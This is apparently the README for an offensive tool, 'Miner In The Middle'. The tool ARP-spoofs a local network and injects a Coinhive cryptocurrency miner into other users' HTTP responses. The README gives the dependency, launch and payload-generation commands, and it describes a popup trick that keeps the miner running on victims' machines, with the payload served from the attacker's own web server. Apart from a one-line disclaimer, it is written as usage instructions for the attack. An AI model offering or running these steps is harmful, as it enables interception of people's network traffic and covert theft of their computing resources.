 
		
	 Miner In The Middle
	 Author - Anthony Russell
	 @DotNetRussell

	 Not for illegal use!
	 (unless you own the network or have permission from everyone on it, it's illegal)
	 
	 
	 You will first need to make sure that you have `MitMf` and also `Twisted version 15.5.0`
	 To install dependencies run:
	 	./miner_itm.sh --install
	
	 ----To launch a standard miner attack----
	
	 The standard network attack arp spoofs the network, then injects a miner into http responses.
	 To launch a standard miner injection attack run:
	 	./miner_itm.sh <coinhive api key> <gateway ip> <interface name>
	
	
	 ----To launch a popup miner attack----
	
	 A popup miner attack will attempt to inject a script into http responses. The script will wait for the user to click a button.
	 When they do it will spawn a popup with their site in it and the origonal window will launch a miner. This is nice for
	 persistence. 
	
   	 First run:
	 		./miner_itm.sh --generate <coinhive api key>
	
	 and place payload.html into your web server root directory
	
   	 Second run:
			./miner_itm.sh -p <gateway ip> <interface name> <web server ip>
	
	

